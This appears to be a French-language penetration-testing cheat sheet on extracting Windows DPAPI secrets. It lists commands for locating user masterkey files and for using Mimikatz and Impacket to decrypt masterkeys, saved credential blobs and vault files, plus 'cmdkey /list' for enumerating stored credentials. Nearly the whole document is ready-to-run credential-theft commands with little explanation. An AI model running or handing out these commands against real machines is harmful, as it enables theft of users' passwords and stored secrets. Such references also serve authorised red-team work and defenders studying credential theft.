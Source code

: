 ### MASTERKEY

Emplacement de la masterkey :

```powershell
$username = "<user>"
Get-ChildItem -Recurse -Force "c:\users\$username\AppData\Roaming\Microsoft\Protect\"
```
#### Mimikatz

```
dpapi::masterkey /in:"C:\Users\$username\AppData\Roaming\Microsoft\Protect\$SUID\$GUID" /sid:$SID /password:$PASSWORD /protected
```

#### Impacket

```
impacket-dpapi masterkey -file masterkeyFile -password user_password
```

### CREDENTIALS

#### Mimikatz

```
dpapi::cred /in:%systemroot%\System32\config\systemprofile\AppData\Local\Microsoft\Credentials\AA10EB8126AA20883E9542812A /masterkey:masterkey
```
#### Impacket

```
impacket-dpapi credential -file ./AppData/Roaming/Microsoft/Credentials/772275FAD58525253490A9B0039791D3 -key masterkey
```


### VAULT

#### Mimikatz

```
dpapi::vault /cred:"Path\to\file.vcrd" /policy:"path\to\Policy.vpol" /masterkey:masterkey
```
#### Impacket

```
impacket-dpapi vault -vcrd file.vcrd -vpol file.vpol -key masterkey
```


### Cmdkey Saved Credentials

Creds stockés dans le gestionnaire d'identification

```cmd
cmdkey /list
```
